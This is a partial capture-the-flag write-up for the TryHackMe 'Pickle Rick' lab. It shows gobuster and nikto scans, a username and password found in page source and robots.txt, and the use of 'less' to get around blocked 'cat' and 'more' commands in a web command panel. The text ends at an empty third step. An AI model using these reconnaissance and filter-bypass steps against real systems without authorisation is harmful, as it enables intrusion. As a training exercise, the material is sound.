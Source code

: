 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

When reading the source code in `http://10.10.253.172/`, we found the following username: `R1ckRul3s`.

...

```bash
gobuster dir -u ... -w ...
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From /robots.txt:

`Wubbalubbadubdub`

...

```bash
$ nikto -h http://<target_ip> -p 80
...
/login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
```

We found the path `/login.php` .



We are presented with a login page. The username and passsword are `R1ckRul3s` and `Wubbalubbadubdub`.

Comment found in `/portal.php`:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` .

...

_**First ingredient**_:

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair


```

_**Second ingredient**_:

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear

```

_**Third ingredient**_:

```
$
```
